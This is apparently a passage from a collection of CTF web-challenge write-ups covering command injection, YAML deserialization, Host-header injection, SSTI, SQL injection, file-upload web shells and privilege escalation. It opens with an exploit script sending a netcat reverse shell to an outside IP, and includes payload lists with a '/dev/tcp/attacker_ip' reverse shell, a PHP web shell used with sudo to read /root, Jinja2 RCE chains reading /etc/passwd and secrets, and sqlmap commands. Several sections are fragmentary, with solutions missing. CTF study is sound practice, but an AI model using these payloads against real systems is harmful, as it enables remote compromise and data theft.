username = '";\n.system nc 34.67.42.222 6666 -e sh\n'
```

But this doesn't work because `username` is now 38 characters and the max is 32. We can use a single digit port to bring us down to 35 characters. What else can we shorten? Then I remembered that I can use the IP in [decimal format](https://www.ipaddressguide.com/ip). So `34.67.42.222` becomes `574827230`, and our payload is now exactly 32 characters!

Final script:

```python
import requests

url = "http://web.ctf.zer0pts.com:8004"
username = '";\n.system nc 574827230 1 -e sh\n'
assert len(username) <= 32
data = {"username": username, "password": "hi"}
res = requests.post(f"{url}/login", data)
print(res.text)
```

On my server:

```bash
plushie@instance-1:~$ sudo -s
root@instance-1:/home/plushie# nc -lvnp 1
listening on [any] 1 ...
connect to [10.128.0.2] from (UNKNOWN) [165.227.180.221] 45301
ls
database.db
server.py
templates
cat templates/index.html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <title>Welcome</title>
    </head>

    <body>
        <h1>Welcome, {{name}}!</h1>
        
        <p>zer0pts{w0w_d1d_u_cr4ck_SHA256_0f_my_p4$$w0rd?}</p>
        
        <p>No flag for you :(</p>
        
    </body>
</html>
```

### Problem - 22 : ( YAML Injection )

name : Baby Injection

Des : Sometimes, seemingly harmless configuration files can do more than they appear. Can you uncover a hidden flaw and turn it to your advantage?

Solve : enter the url : [http://172.105.121.246:5990/](http://172.105.121.246:5990/)

First : see the endpoint base64 !!

Solution :

When we click on the link in the website link we see an extra “base64 string” to the link .


We don’t see any other input section to inject other than the upper provided link with extra base64 . That hash will be shown in the “Dynamic Content” section . 


Ok !! try to see srting

```
yaml: !!python/object/apply:subprocess.check_output [["id"]]
```

to base64

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFtbImlkIl1d=
```


Ok Done !!! try :

```
yaml: !!python/object/apply:subprocess.check_output [["ls"]]
```

to Base64 :

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFtbImxzIl1d=
```

and the flag is :


Or →

**Payload for listing all the files**

```python
yaml: !!python/object/apply:subprocess.getoutput ['ls -la']

```

**Payload in Base64:**

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuZ2V0b3V0cHV0IFsnbHMgLWxhJ10=

```

**Final URL:**

```cpp
http://server-ip:port/eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuZ2V0b3V0cHV0IFsnbHMgLWxhJ10=
```


Concept of YAML injection ,

---

1. Execute Arbitrary Commands

Run a system command to display current user information:

```yaml
yaml: !!python/object/apply:os.system ["id"]
```

---

2. Reverse Shell

Establish a reverse shell to a controlled server:

```yaml
yaml: !!python/object/apply:os.system ["/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/1234 0>&1'"]
```

---

3. File Read

Read sensitive files such as `/etc/passwd`:

```yaml
yaml: !!python/object/apply:builtins.open ["/etc/passwd"]
```

---

4. Write to a File

Write data to a file (e.g., adding a user to `/etc/passwd`):

```yaml
yaml: !!python/object/apply:builtins.open ["/tmp/hacked.txt", "w"]
```

Accompany it with:

```yaml
yaml: !!python/object/apply:builtins.print ["Hacked!", !!python/object/apply:builtins.open ["/tmp/hacked.txt", "w"]]
```

---

5. Command Injection

Chain multiple commands using shell operators:

```yaml
yaml: !!python/object/apply:os.system ["echo 'Hacked!' && touch /tmp/pwned"]
```

---

6. Denial of Service (Billion Laughs Attack)

Overwhelm the YAML parser with a recursive alias:

```yaml
yaml: &a ["lol", *a]
```

---

7. Environment Variable Extraction

Retrieve sensitive environment variables:

```yaml
yaml: !!python/object/apply:os.getenv ["SECRET_KEY"]
```

---

8. Python RCE (Remote Code Execution)

Exploit Python’s built-in functions to execute arbitrary Python code:

```yaml
yaml: !!python/object/apply:eval ["__import__('os').system('id')"]
```

---

9. Read File via Unsafe Loader

Trigger unsafe deserialization to extract file content:

```yaml
yaml: !!python/object/apply:os.system ["cat /etc/hostname"]
```

---

10. Create a File with Arbitrary Content

Write a malicious payload to a file:

```yaml
yaml: !!python/object/apply:builtins.open ["/tmp/exploit.py", "w"]
```

Accompany it with:

```yaml
yaml: !!python/object/apply:builtins.print ["print('Hello from exploit!')", !!python/object/apply:builtins.open ["/tmp/exploit.py", "w"]]
```

---

*Base64 Encoding for HTTP Transport*

To use these payloads in a web challenge, encode them in Base64 using:

```bash
echo -n "yaml: !!python/object/apply:os.system ['id']" | base64
```

### Problem - 23 : ( redis-cli_(Remote Dictionary Server) )

name : Luana des : Show me your skills. Read the /flag.txt

Flag Format: KCTF{Fl4G_HeRe}

Do not use any automation tools. The server will reset in every 5 minutes.

open url :


Solution :


Actually , the site is not active to provide files . For this reason we didn’t get any result but it will show this →


```bash
# Step 1: Scan for the Redis Port
# Redis typically runs on port 6379.
nmap -p 6379 172.105.121.246

# Step 2: Connect to Redis
redis-cli -h 172.105.121.246 -p 6379

# Step 3: Fetch Server Information
# This reveals:
	# Redis version.
	# Server operating system.
	# Memory usage.
	# Configuration details.
info

# Step 4: Get Configuration Details
CONFIG GET *

# To find the default working directory where files might be located
CONFIG GET dir

# Step 5: Attempt to Read a File . 
# Use the Redis Lua script execution feature to read files: . We are supposing the flag is in the present directory .
EVAL "local f=io.open('/flag.txt', 'r'); local c=f:read('*a'); f:close(); return c" 0
```

### Problem - 24 : (generate_a_valid link)

Solution :

The challenge offers a Laravel PHP application:


App Directories

After investigating the source code. it’s evident that we should access and admin user to retrieve the flag:


Checking the app routes, we find that there is a /login-link and /request-login-url endpoints:


Reading the app source we find out the method to generate login links:


Generating a Login Link

and the code to validate the login:


So basically we have to generate a valid link for an admin user that we have its email. since the code just validates the timestamp is within the current time +3600 and a bcrypt of $email . ‘|’ $time.

in the contacts page we find several emails of the staff:

```html
 <ul class="email-list">
            <li>admin1@knightconnect.com</li>
            <li>admin@knightconnect.com</li>
            <li>tech@knightconnect.com</li>
            <li>sponsorship@knightconnect.com</li>
            <li>partnership@knightconnect.com</li>
            <li>nomanprodhan@knightconnect.com</li>
            <li>jannat@knightconnect.com</li>
            <li>hello@knightconnect.com</li>
            <li>root@knightconnect.com</li>
        </ul>
```

we use the following code to generate login links specifyingthe email:

```php
<?php

function generateLoginLink($email, $expirationTime = 3600) {
    // Current timestamp
    $timestamp = time();

    // Concatenate email and timestamp
    $data = $email . '|' . $timestamp;

    // Hash the data using password_hash (bcrypt algorithm)
    $token = password_hash($data, PASSWORD_BCRYPT);

    // Generate the login URL
    $baseUrl = "https://yourdomain.com/login-link";
    $queryParams = http_build_query([
        'token' => $token,
        'time' => $timestamp,
        'email' => $email,
    ]);

    return $baseUrl . '?' . $queryParams;
}

// Example usage
$email = "nomanprodhan@knightconnect.com";
$link = generateLoginLink($email);
echo "Generated Login Link: " . $link;
```


so we try with the [nomanprodhan@knightconnect.com](mailto:nomanprodhan@knightconnect.com) email, and log using the generated link, gives the flag :


### Problem - 25 : ( Reset_password  )

Host header injection

[https://drive.google.com/file/d/1Og_kjSed7LWSzYRPQst2BYwyE8DUaVIt/view?usp=drive_link](https://drive.google.com/file/d/1Og_kjSed7LWSzYRPQst2BYwyE8DUaVIt/view?usp=drive_link)

Solution :

The site appeared as follows, with a login screen:


After completing the registration and login phase, you would enter a completely empty dashboard where the only available action was to log out. That’s when I realized that registering was pointless. Inspecting the page source, I found a strange comment:


the comment revealed an email, most likely belonging to the account containing the flag. Continuing to explore the site since it was a black-box challenge without any files I found the "Forgot Password" section:


Where it was possible to specify an email to reset a password. At this point, I thought about resetting the password for the account associated with the email I had found earlier. And I considered a Host Header Injection.

**Exploit**

So i started ngrok on port 80:

```
ngrok http 80
```

And then, using Burp Suite, I modified the Host header to `Host: ngrok_link`. By sending the request with the modified Host header through ngrok, I was able to extract the reset token from the previously sent "Forgot Password" request with the email kctf2025@knightctf.com:


After extracting the valid token, I reset the password using the obtained link and logged in with the account using the following credentials:

```
username: kctf2025
password: new_password
```


**Concept :**
The **Host header vulnerability** exploits the way web servers and applications handle the `Host` HTTP header. The `Host` header is part of an HTTP request, indicating the domain name of the server the client wants to communicate with.

**1. Web Cache Poisoning**

In web cache poisoning, an attacker manipulates the `Host` header to poison the cache of a Content Delivery Network (CDN) or a caching proxy.

**Scenario**:

A website uses the `Host` header to generate cache keys but does not validate it.

**Payload**:

```
GET /index.html HTTP/1.1
Host: attacker.com
```

**Result**:

The CDN caches the page for `attacker.com`. Future visitors accessing the legitimate website may be served malicious content injected by the attacker.

---

**2. Password Reset Link Manipulation**

Applications that include the `Host` header value in password reset or verification links are vulnerable.

**Scenario**:

An attacker manipulates the `Host` header to inject their domain into a password reset email.

**Payload**:

```
POST /password-reset HTTP/1.1
Host: evil.com
Content-Type: application/x-www-form-urlencoded

email=victim@example.com
```

**Result**:

The victim receives a password reset link pointing to:

```perl
http://evil.com/reset?token=abcdef
```

When clicked, the attacker captures the reset token.

---

**3. Server-Side Request Forgery (SSRF)**

The `Host` header is exploited to make internal requests through the server.

**Scenario**:

An application forwards requests based on the `Host` header value.

**Payload**:

```
HTTP/1.1
Host: 127.0.0.1:80
```

**Result**:

The server resolves the `Host` header to an internal service, potentially exposing sensitive data or allowing unauthorized actions.

---

**4. HTTP Request Smuggling**

This technique exploits differences in how servers and proxies process HTTP requests.

**Scenario**:

An attacker crafts a request with a spoofed `Host` header that bypasses a proxy.

**Payload**:

```
GET / HTTP/1.1
Host: victim.com
X-Forwarded-Host: attacker.com
```

**Result**:

The proxy forwards the request to the backend server, which processes `attacker.com` as the host, potentially leaking data.

---

**5. Open Redirect**

The `Host` header is used to redirect users to malicious websites.

**Scenario**:

An application constructs a redirect URL using the `Host` header.

**Payload**:

```
GET /redirect?url=/dashboard HTTP/1.1
Host: evil.com
```

**Result**:

The victim is redirected to:

```arduino
http://evil.com/dashboard
```

The attacker can set up a phishing page at `evil.com/dashboard`.

---

**6. Bypassing Security Controls**

Applications with security mechanisms (like IP restrictions) may rely on the `Host` header for access control.

**Scenario**:

The server checks the `Host` header to restrict access to a specific domain.

**Payload**:

```
GET /admin HTTP/1.1
Host: 127.0.0.1
```

**Result**:

The server grants access to the internal admin panel because it trusts `127.0.0.1`.

---

**7. DNS Rebinding**

The attacker manipulates the `Host` header to point to a domain that resolves to an internal IP.

**Scenario**:

The server resolves the `Host` header to an attacker-controlled domain.

**Payload**:

```
GET / HTTP/1.1
Host: evil.com
```

**Result**:

The server resolves `evil.com` to `127.0.0.1` or another internal IP, allowing the attacker to interact with internal services.

---

**8. Host Header Injection**

The attacker injects malicious content into the `Host` header to exploit server-side logic.

**Scenario**:

The server logs the `Host` header value without sanitization.

**Payload**:

```
GET / HTTP/1.1
Host: evil.com
X-Forwarded-Host: <script>alert('Hacked!')</script>
```

**Result**:

The script is logged or reflected in the server response, leading to XSS or other exploits.

### Problem - 26 : (Remove_disabled=””)


Solution :


In web site we saw that the username and pass has cracked but when we log in we are not allowed to log in. When inspect in the log in button we saw that it is disabled .


Right click on button then select inspect element. Right click on the button element and select "Edit as HTML" delete the disabled keyword there and click anywhere to save.
button should work. click to log in now .


### Problem - 27 : ( inspect logically )

We've come across a website for typewriter lovers at
[https://cgames-wm01.allyourbases.co](https://cgames-wm01.allyourbases.co/) - but it seems to do something
more than display these mechanical marvels, can you figure out what's hidden?

Solution :


Looks like the menu on the header are anchors. Only scroll down nothing special page or anything new loaded. But we notice “view page source” we find out this fishy code →


### Problem - 28 : ( Download the .js )

A forensics expert with a love for 1960's music has created a top 10 list at [https://cgames-wm02.allyourbases.co](https://cgames-wm02.allyourbases.co/) and challenged us to find the flag. Let's show him 2020 far beats the 1960's by finding it!

Solution :


In “view page source” a secret .js file available.


We didn’t get any interesting but a comment at the top which may be indicating a .js code page. when we add that tag in the url we were shown to download a .js .


when we open that downloaded .js file we were seen a flag in that .


### Problem - 29 : ( remove 1 captcha )

Our developer has been creating their own captcha system. We informed them it was a bad idea and surprise surprise they're running into issues with it. Have a look at [https://cgames-wm03.allyourbases.co](https://cgames-wm03.allyourbases.co/) and see if you can solve the captcha and indeed what's wrong with what they've built!

Solution :


It is telling us to show 2 words but we only see one word “morning” . We have to find the 2nd word so that we fill up the captcha .When we inspect in to the captcha image we see 2 images . 


We delete the 1st captcha svg to see the 2nd captcha svg which is under it.


after deleting the first captcha, the second one appeared.


### Problem - 30 : ( Command injection )

The IOT office coffee machine has gone haywire, see
[https://cgames-wh01.allyourbases.co](https://cgames-wh01.allyourbases.co/). It's constantly pouring out coffee
and generally a very poor quality machine! Apparently it's not that secure either, can you get information from it?

Solution :


looking at the webpage, its asking for a user input, what i always do is i check if there is a proper sanitization done on imput fields.
why?? to see if i can find an SQLi or Command Execution.
first i will look at Command Executions.

```html
Ways of injecting OS commands
=> A variety of shell metacharacters
;
&
&&
|| ..... and few others. lets try this on our target

In this web “;” didn’t work but “&” worked
```


then , We give under commands .


Flag: IOTweakPolnt

### Problem - 31 : (HTML_Formatter)

[https://ggcs-we02.allyourbases.co](https://ggcs-we02.allyourbases.co/) and see if you can
Access the site at
find the flag on the site.

Solution :


I viewed sourced, copied it all to HTML beautifier to have a good view of the source code.
in HTML, "*/" or " <!-- " are unusual used for comments. since that part is commented out lets dig there to find what they are hidding

1. /app-98c4fce0ec32ab023cbd.js
2. /component---src-pages-else-js-b41975d5a1f03391feel.js
3. /component---src-pages-index-js-fee2ee12421991017ca0.js
4. /webpack-runtime-32b2ac0d5db0fd76561a.js

so we have 4 js files. what content do they hold?? We wont know unless we dig there


For the 2nd .js we get the flag →


### Problem - 32 : (Dirbuster)

Access the site at [https://ggcs-we03.allyourbases.co](https://ggcs-we03.allyourbases.co/) and find a secret page which contains the flag.

Solution :


I guess you know what to do already right?? since is a page that is hidden, we could try Dirbuster or try to guess the name.


Lets inspect “ /robots.txt ” .


robots.txt page leads to another hidden dir  → “ /61829201829023.html “


### Problem - 33 : (Flag_in_Console)

There's a page at [https://cgames-we04.allyourbases.co](https://cgames-we04.allyourbases.co/) which claims there's nothing to see but we're not convinced. Can you find anything?

Solution :


In “View source” →


### Problem - 34 : (Url SQL 1)

There can’t much go wrong with pagination, right?

[http://52.59.124.14:5012/](http://52.59.124.14:5012/)

Solution :


in ” view page source ” →


The application processes a GET parameter `p` which is expected to contain two comma-separated values (a lower and an upper bound for page IDs).

**Vulnerability**

The vulnerable part is in the SQL query construction:

`$q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";`

While `$min` is effectively sanitized by the check using intval(`$min`) (ensuring it is greater than 1), `$max` is not sanitized at all. This makes it a candidate for SQL injection.

Since only `$min` is validated (and must be greater than 1), you can inject SQL through `$max`

Payload-> `?p=2,10 OR 1=1` The query become `SELECT * FROM pages WHERE id >= 2 AND id <= 10 OR 1=1`

The resultant query becomes `(id >= 2 AND id <= 10) OR 1=1`


The resultant will give Flag which will be in base64 encoded and after decoding

`ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}`

### Problem - 35 (Url SQL 2):

Ok, we moved the critical information to a different table now... Can't go wrong this time, right?
Author: @gehaxelt
[http://52.59.124.14:5015](http://52.59.124.14:5015/)

Solution :

This was just a very simple sqli challenge .


Accessing the web page shows this


We can look at the source code


First we note that it creates a table `pages` with the column as `id, title, content`

```
$db->exec("CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT)");
```

Then on the very first row it inserts the flag

```
$db->exec("INSERT INTO pages (title, content) VALUES ('Flag', '" . base64_encode($FLAG) . "')");
```

This is how it handles our input

```
if(isset($_GET['p']) && str_contains($_GET['p'], ",")) {
  [$min, $max] = explode(",",$_GET['p']);
  if(intval($min) <= 1 ) {
    die("This post is not accessible...");
  }
  try {
    $q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
  }catch(Exception $e) {
    echo "Try harder!";
  }
} else {
    echo "Try harder!";
}
```

It expects the get parameter `p` to be of format `int, int`, but it doesn't allow us to set `min` as `1` basically preventing us from accessing the first post

Then it directly uses our input on the query, leading to an SQL injection vulnerabiltiy

I simply just used a `UNION` operator to show the content of the flag


```
http://52.59.124.14:5012/?p=2,1 UNION SELECT * FROM pages WHERE id=1
```

we used the payload to the “5012” port which was for its first part challenge.


The flag is base64 encoded so just decode it


`Flag: ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow!}`

Or, 


Looking at the source code, assuming the table name is `flag` we do a basic union injection: `/?p=2,3 UNION SELECT * FROM flag` and we get the flag in base64 encoded format and we decode it to get the flag: `ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow_AgA1n_And_Ag41n!}`

### Problem - 36 :

[http://52.59.124.14:5008/](http://52.59.124.14:5008/)

Solution :


### Problem - 37 :

The attempted attempt to tempt the untempted into a tempting but contemptible scheme was an untempting temptation that exemplified not only contempt but also a preemptive exemption from any redemptive attempts. [http://52.59.124.14:5011](http://52.59.124.14:5011/)

Solution :

The name and the description gave me a hint that it might be an SSTI (**Server-Side Template Injection**). So the challenge consists of a simple web page with a submission form.


When I you try to submit anything it just returns Too Tempted!


Then I checked the page's html code. There was a comment with a url parameter that allows to fetch the source code of the webpage.


I found the route `/?source`, which was supposed to show me the server-side source code:


But when visiting it, I received the same page as before from `/`. So, I tried passing the parameter `/?source=0` and got the source code:


```bash
# Source Code

import web
from web import form
web.config.debug = False
urls = (
  '/', 'index'
)
app = web.application(urls, locals())
render = web.template.render('templates/')
FLAG = open("/tmp/flag.txt").read()

temptation_Form = form.Form(
    form.Password("temptation", description="What is your temptation?"),
    form.Button("submit", type="submit", description="Submit")
)

class index:
    def GET(self):
        try:
            i = web.input()
            if i.source:
                return open(__file__).read()
        except Exception as e:
            pass
        f = temptation_Form()
        return render.index(f)

    def POST(self):
        f = temptation_Form()
        if not f.validates():
            return render.index(f)
        i = web.input()
        temptation = i.temptation
        if 'flag' in temptation.lower():
            return "Too tempted!"
        try:
            temptation = web.template.Template(f"Your temptation is: {temptation}")()
        except Exception as  e:
            return "Too tempted!"
        if str(temptation) == "FLAG":
            return FLAG
        else:
            return "Too tempted!"
application = app.wsgifunc()
if __name__ == "__main__":
    app.run()
```

In the source code it became obvious that it's an SSTI because the user input is passed to the template engine without any sanitization (highlighted in red).Indeed, as we can see from the source code, any GET request with the parameter `/?source=something` returns the source code of the page. It’s also possible to make a POST request to the page passing a `temptation` parameter. If the `temptation` parameter contains `flag` or `FLAG` (and so on), since everything is converted to lowercase, an error message is returned. It then checks if the parameter we send equals `FLAG`, and if so, it returns the actual flag.

Knowing this, this snippet seemed weird for us:

```python
i = web.input()
temptation = i.temptation

if 'flag' in temptation.lower():
    return "Too tempted!"

try:
    temptation = web.template.Template(f"Your temptation is: {temptation}")()
except Exception as  e:
    return "Too tempted!"
```

If the word `flag` is not in the `temptation` parameter value, the app generates a `Template` based on the `temptation` value.

First I thought that the template was generated based on a `filename` that was extracted from the `temptation` parameter. But after reading [the source code](https://github.com/webpy/webpy/blob/master/web/template.py) of the webpy template engine, we came across this:

```python
class Template(BaseTemplate):
    def __init__(
        self,
        text,
        filename="<template>",
        filter=None,
        globals=None,
        builtins=None,
        extensions=None,
    ):
```

When called with two parameters, the template is generated based on a `string` ! Meaning that due to the line with the f-string:
`temptation = web.template.Template(f"Your temptation is: {temptation}")()`

we have full control over what is passed to the template, leading to an SSTI !

I was doing the challenge with [hitcat](https://blog.hitc.at/) and he noticed that the app was written using [webpy](https://webpy.org/).

Then I've googled the webpy's documentation and there was a block about builtins and globals. I was trying to figure out what functions were available and went to webpy's github repository.


Looking through the template.py code (https://github.com/webpy/webpy/blob/master/web/template.py) I've found TEMPLATE_BUILTIN_NAMES and there was a builtin import function.


we can easely evaluate python expression using the `${}` or `$()` syntax. This easy one liner should make the app sleep 5 seconds:
`${__import__("os").system("sleep 5")}`

The flag was in the /tmp folder (look at the source code of the chall), but it can't be read as /tmp/flag.txt because there's an if statement that checks for the word flag in the user input, so I used /tmp/*.txt and encoded it with base64.


Then I checked the colaborator and there it was!


Flag: **ENO{T3M_Pl4T_3s_4r3_s3cUre!!}**

### Problem - 38 : (File_upload_and gain root access)

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.

https://play.picoctf.org/practice/challenge/482?category=1&originalEvent=74&page=1

Solution :


**Step 1: File Upload Vulnerability :**

We first attempted to upload a **PHP shell** through the file upload form. We crafted a basic PHP shell:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

We named this file `shell.php` and uploaded it through the form. Upon successful upload, we noticed that we could access the file via its URL, indicating that the file was indeed uploaded to the server and executed.


**Step 2: Verifying Command Execution :**

After uploading the PHP shell, we accessed it directly through the URL:

```bash
http://standard-pizzas.picoctf.net:59028/uploads/shell.php?cmd=whoami
```

The result was:

```
www-data
```


and also →

```bash
http://standard-pizzas.picoctf.net:53200/uploads/shell.php?cmd=ls /
```


This confirmed that the PHP shell was executing commands with the privileges of the `www-data` user, which is the default user for web servers. We were able to execute commands like `whoami` and `ls` to explore the system.

***Step 3: Searching for the Flag :***

Next, we attempted to locate the flag, which we were told was in the `/root` directory. However, running `ls /root` resulted in a **Permission Denied** error, since `www-data` does not have access to this directory.

we also tried to grep flag like this but no juicy flag file ,

```bash
find / -iname "*flag*" 2>/dev/null
```

Full URL version:

```
http://standard-pizzas.picoctf.net:59028/uploads/shell.php?cmd=find / -iname "*flag*" 2>/dev/null
```


At this point, we realized that our only path forward was to escalate our privileges to **root**.

---

***Privilege Escalation***

**Step 4: Exploiting SUID Binaries**

Using the knowledge that certain binaries may have the **SUID (Set User ID)** flag set, we checked for binaries that could allow us to escalate our privileges. We ran the following command to list all SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

```bash
http://standard-pizzas.picoctf.net:53200/uploads/shell.php?cmd=find+/+-perm+-4000+-type+f+2%3E%2Fdev%2Fnull
```


The output showed us that the `/usr/bin/sudo` binary was **SUID** and available to us. This was a critical finding because it meant that we could run commands as **root** without needing a password.

**Step 5: Using `sudo`**

We checked the `sudo` permissions by running:

```bash
sudo -l
```

The result showed:

```
(ALL) NOPASSWD: ALL
```

This meant we could run **any command as root** without needing a password.


---

**Step 6: Reading the Flag**

With root access via `sudo`, we ran the following command to read the contents of the flag:

First ls in the root directory →

```bash
sudo /bin/bash -c "ls /root"
```

```bash
http://standard-pizzas.picoctf.net:53200/uploads/shell.php?cmd=sudo%20/bin/bash%20-c%20%22ls%20/root%22
```


```
sudo cat /root/flag.txt
```

```bash
http://standard-pizzas.picoctf.net:53200/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```

This printed the flag to the browser.


---

**Conclusion**

This challenge demonstrated the dangers of **unrestricted file upload functionality**, as well as the importance of securing SUID binaries and properly configuring `sudo` permissions. Once we identified the `sudo` misconfiguration, it was straightforward to escalate privileges and access the flag.

### Problem - 39 : ( head_dumping )

Welcome to the challenge! In this challenge, you will explore a web application and find an endpoint that exposes a file containing a hidden flag.
The application is a simple blog website where you can read articles about various topics, including an article about API Documentation. Your goal is to explore the application and find the endpoint that generates files holding the server’s memory, where a secret flag is hidden.

[https://play.picoctf.org/practice/challenge/476?category=1&originalEvent=74&page=1](https://play.picoctf.org/practice/challenge/476?category=1&originalEvent=74&page=1)

Solution :

The hint about "keeping the flag on the heap" immediately pointed toward **heap memory**, which is dynamically allocated memory in a running application. This suggested we should look for ways to **inspect or extract heap memory**, likely through some sort of memory dump.

***🔍 Initial Exploration***

Visiting the provided URL led to a simple web application. Nothing seemed suspicious or interactive on the main page, and there was no visible input field or admin interface.

Common Recon:

We tried some classic enumeration techniques:

- `/robots.txt`
- `/admin`
- `/api`


This , also indecating that this api has some fixed GET method attributes.

In the source code we get a documentation site of the 


After going there we get the list of available API methods 


At the last we GET /heapdump method which is very juicy .


OR ,

- Fuzzing with tools like `ffuf` or `dirsearch`

Eventually, the documentation or deeper inspection revealed an API endpoint:

```
GET /heapdump
```

***📥 Accessing the Heap Dump***

Navigating to the `/heapdump` route:

```
http://verbal-sleep.picoctf.net:56147/heapdump
```

...triggered a file download. The file was a **heap snapshot**, likely generated by Node.js or a similar backend that supports V8 heap dumps.


***✅ Takeaways***

- Heap dumps can expose sensitive data like secrets, tokens, and yes — flags!
- Node.js applications sometimes leave debug endpoints like `/heapdump` open in production.
- Tools like Chrome DevTools are extremely helpful in parsing and analyzing `.heapsnapshot` files.

---

### Problem - 40 : (Cookie_decoding)

Cookie Monster has hidden his top-secret cookie recipe somewhere on his website. As an aspiring cookie detective, your mission is to uncover this delectable secret. Can you outsmart Cookie Monster and find the hidden recipe?You can access the Cookie Monster [here](http://verbal-sleep.picoctf.net:57968/) and good luck

Solution :

a normal login site no juicy info in the source code .


By giving anything and login it suggest to focus on cookies only .


So we first grep the cookie and pass it to the url decoder [https://www.urldecoder.org/](https://www.urldecoder.org/) as it has some url encoded special letters


Looks like base64 .


### Problem - 41 : ( SQL_map ) (Breaking_Authentication)

Say my username.

Solution :


nothing interesting in the source code . Try sql injection in login to authentication bypassing.

```powershell
Not worked ->
' or 1=1--
admin' or 1=1--
admin'--
' or 'a'='a

Worked ->
admin' or 'a'='a
```

only admin username worked .


Nothing interesting in the admin panel . Okay , again go back to the login page and intercept that login request with data and understand its attributes style →


Now , we will use sqlmap .


```bash
sqlmap -u [http://23.179.17.40:58001/](http://23.179.17.40:58001/) --data "username=reza&password=123&login=Login" --batch
```

This tells sqlmap to test for SQL injection vulnerabilities on a POST request to [http://23.179.17.40 :58001/](http://23.179.17.40:58001/), simulating form data submission.


The sqlmap identifies this sql injections →


Now lets analysis the database , tables , and dump a table and its contents and we will get the flag .


### Problem - 42 : (Git dumping/history) (**Commit & Order: Version Control Unit**)

"In software development, the repository is represented by two separate yet equally important branches...”

Solution :

we tried “ .git ” directory but its forbidden. 


`git-dumper` is a specialized tool used in **CTF challenges** and **pentesting** to extract a `.git` repository from a **publicly exposed `.git/` directory** on a web server.
I dumped all things in to mine current directory.


In that commit time site contained the flag as we see in the text file come from “diff commit”→


**Flag → CIT{5d81f7743f4bc2ab}** 

### Problem - 43 :

How I Parsed your JSON

"This is the story of how I defined your schema."

The flag is in secrets.txt

http://23.179.17.40:58004/

Solution :


the input was working like the sql command and after * execute we see in the link “container” parameter taking table value we can exploit that container value .


Though we gave “secrets.txt” , we only get secrets as response that means .txt extension is removed . Lets try double extension input technique “secrets.txt.txt”


Though we are successful but didn’t get the flag that means the flag is not in that directory .

Now, look this url works based on sql command which except a file or table not shell commands . So, we can’t give “ls” type command .


In app directory [app.py](http://app.py) or [main.py](http://main.py) code exists .


In that we also see in the [app.py](http://app.py) it excludes also ../ to “ ” .

Basically the flag is in the “app” directory .


```bash
http://23.179.17.40:58004/select?record=*&container=/app/secrets.txt.txt
```

### Problem - 44 : ( flusk-unsign )

**Mr. Chatbot**

"What's your prompt?"

The flag is in secrets.txt

Solution :


Let’s try SSTI ,


No , 7777777 output . But if investigate cookie “PHPSESSID” & “session” and session gives some interesting infos .


Now , lets capture the login request method in burp repeater and observe . And , we see that in response we also get a session cookie value which shows invalid in [jwt.io](http://jwt.io) .


But , in flask-unsign basically decoded that  where admin is 0 by default . Lets make admin 1.


So , when admin = 1 in response the cookie has base64 response in which we see thee SSTI execution happen at first of {{7*’7’}} . So, the site is vulnerable with SSTI :) 

Then , used config method .


Then , tried Flask/Jinja2 CTF RCE Chain (Classic) ,

```bash
{{ config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read() }}
```


```bash
{{ config.**class**.**init**.**globals**['os'].popen('cat  secrets.txt').read() }}
```


Or , another payload →

```bash

{{self.__init__globals__builtin__import__('os').popen('cat+secrets.txt').read()}}&admin=1
```


If dot-access is blocked, use full bracket notation:

```bash
{{ self['__init__']['__globals__']['__builtins__']['__import__']('os').popen('cat secrets.txt').read() }}
```

Flag → CIT{18a7fbedb4f3548f}

### Problem - 45 :

**Keeping Up with the Credentials**

"I’m all about strong passwords. If you're not using one, you’re just playing yourself."

This challenge requires something that can be acquired in any of the other web challenges.

Solution :

Another basic login page. The description mentions we need something from another web challenge and the name hints at reused credentials, remember the DB we dumped in the SQLi challenge?

```
+---------+----------+--------------+----------+
| email   | fullname | password     | username |
+---------+----------+--------------+----------+
| <blank> | <blank>  | m1n3r41s     | hank     |
| <blank> | <blank>  | 9f3IC3uj9^zZ | admin    |
| <blank> | <blank>  | M4GN375      | jesse    |
| <blank> | <blank>  | b4byb1u3     | walter   |
+---------+----------+--------------+----------+
```


Try to login with `admin:9f3IC3uj9^zZ` and we successfully login and reach `/debug.php`. It says the page is currently under construction and to try again later.


But , in burp →


HTTP 302 is a redirect status code indicating the requested resource has temporarily moved to a different URL.

Then , go to follow rediretion →


we get the site type response →


Changing the request method →


lets go back to that log in page again and change its reqeust method →


interesting the location indicating “/admin.php” .

Lets follow the redirection from this ,


And you will get the flag →


OR , some dead end loop approach may happen in this challenge . 

Try SQLi again, maybe there's a different DB.

```
sqlmap -u http://23.179.17.40:58003/index.php --data "username=cat&password=meow&login=Login" --batch
```

Nope, it's the same! Tried to use `gobuster` along with the cookie to see if there are some other PHP files (this is starting to feel guessy lol).

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -u http://23.179.17.40:58003/ -x php -c "PHPSESSID=3769e9cc271318ef55b31272d2ea9424"

===============================================================
/index.php            (Status: 200) [Size: 2484]
/admin.php            (Status: 302) [Size: 0] [--> /index.php]
/debug.php            (Status: 200) [Size: 2432]
```

